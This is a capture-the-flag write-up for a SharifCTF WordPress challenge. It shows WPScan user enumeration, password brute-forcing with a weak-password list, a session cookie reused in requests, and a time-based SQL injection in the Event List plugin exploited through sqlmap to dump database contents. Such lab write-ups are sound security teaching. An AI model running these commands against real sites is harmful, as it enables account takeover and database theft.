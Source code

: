 # The news hacker (150 PTS)
### Description

>Only admin can see the flag :)
>
>ctf.sharif.edu:8082
>
>Alternative Link (8082.ctf.certcc.ir)

>Hint: Weak password!

Flag: ```SharifCTF{e7134abea7438e937b87608eab0d979c}```

### Solution

<p><img src='images/wordpress.png' /></p>

This is the main page of the website. It contains some news about hackers, calendar with CTF competitions and a simple photo gallery. Website looks like ```wordpress```, so let's check it using [WPScan](https://wpscan.org/)!

```
vova@Vova-PC:~/wpscan$ ruby ./wpscan.rb --url http://8082.ctf.certcc.ir/ --enumerate u --threads 20 > scan.txt
```

Yeah, look at that ```scan.txt```! It a definitely wordpress, and it contains many vulnerable plugins.

You can see all scanning results in [scan.txt](scan.txt), but we'll take note of ```Event List``` plugin:

```
[!] Title: Event List <= 0.7.8 - Authenticated SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8846
    Reference: https://dtsa.eu/cve-2017-9429-event-list-version-v-0-7-8-blind-based-sql-injection-sqli/
    Reference: https://plugins.trac.wordpress.org/changeset/1676971/event-list
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9429
[i] Fixed in: 0.7.9
```

That vulnerability exploits a ```SQL injection``` hidden in the editing page:

```
http://[wordpress_site]/wp-admin/admin.php?page=el_admin_main&action=edit&id=1 AND SLEEP(10)
```

We can use it! But... first we need to login into ```wp-admin```. 

WPScan with ```--enumerate u``` (as we used) obtains logins of wordpress users (id from 1 to 10). Let's look at the end of ```scan.txt```:

```
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-----------+-----------+
    | Id | Login     | Name      |
    +----+-----------+-----------+
    | 1  | admin     | admin     |
    | 2  | organizer | organizer |
    +----+-----------+-----------+
[!] Default first WordPress username 'admin' is still used
```

So we can use WPScan again to bruteforce passwords. I looked at the Hint and used [500 worst passwords](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt).

```
vova@Vova-PC:~/wpscan$ ruby ./wpscan.rb --url http://8082.ctf.certcc.ir/ --wordlist 500-worst-passwords.txt --threads 20
+----+-----------+-----------+----------+
| Id | Login     | Name      | Password |
+----+-----------+-----------+----------+
| 1  | admin     | admin     |          |
| 2  | organizer | organizer | password |
+----+-----------+-----------+----------+
```

And there is ```organizer's``` password: ```password```! Weak, isn't it? So let's login into admin panel (```/wp-login.php```).

<p><img src='images/admin.png' /></p>

As you see, nothing interesting here. Just save the cookie end go away...

```
wordpress_eb2a34d2fb7f6ae7debb807cd7821561=organizer%7C1518053697%7C3Uy0RvkQYc2RtBB4Vlg2kDdWNg8eC6fUF6Qq1TNS4tc%7C3fe61137ca73062fd44852ef55a17cb2d89a05f4227ecb2bc807db867e528355
```

```Wordpress 4.9.1``` cookie is very complicated, that's why we won't try to change it. But now we can exploit the SQL injection from ```Event List``` using [sqlmap](http://sqlmap.org/).

```
C:\Users\Vova\Desktop\SharifCTF8> py -2 sqlmap.py ^
More? --url="http://8082.ctf.certcc.ir/wp-admin/admin.php?page=el_admin_main&action=edit&id=1" ^
More? -p id ^
More? --threads=10 ^
More? --sql-shell ^
More? --cookie="wordpress_eb2a34d2fb7f6ae7debb807cd7821561=organizer%7C1518050175%7C8XtpMJPPznkAada2MnyIamhMcBXMS0JDAtsuKJgrw8n%7C9539ffdec564f651fe34b71327d8bf2978fb1c93883ec9be36ef9aa65552fc8f"
```

I'll explain. We're providing a ```request url``` with injection, selecting vulnerable ```argument``` (id), spawning 10 ```threads```, requesting ```shell``` and setting our ```cookie``` to pass authentification.

After some tryings and checkings sqlmap provides us a ```SQL shell```. Console log is too big, so you can see it all in [shell.txt](shell.txt). I'll just write commands and partial server response.

Description said that only ```admin``` can see flag. We're not admin, but we have an access to ```all data``` on the website. At the beginning we should discover tables presents in databases.

```
sql-shell> select table_name from information_schema.tables where table_schema != 'information_schema'
[*] wp_app_user_info
[*] wp_bwg_album
[*] wp_comments
[*] wp_event_list
[*] wp_options
[*] wp_posts
[*] wp_users
...
```

Since this is wordpress, then we look at ```wp_posts``` first. Take a look at the table structure and get ```content``` of all posts.

```
sql-shell> select column_name from information_schema.columns where table_name = 'wp_posts'
[*] ID
[*] post_author
[*] post_content
[*] post_date
[*] post_name
[*] post_title
[*] post_type
...

sql-shell> select post_content from wp_posts
...
```

After a little searching we'll found the flag:

```
[*] Flag is SharifCTF{e7134abea7438e937b87608eab0d979c}
```
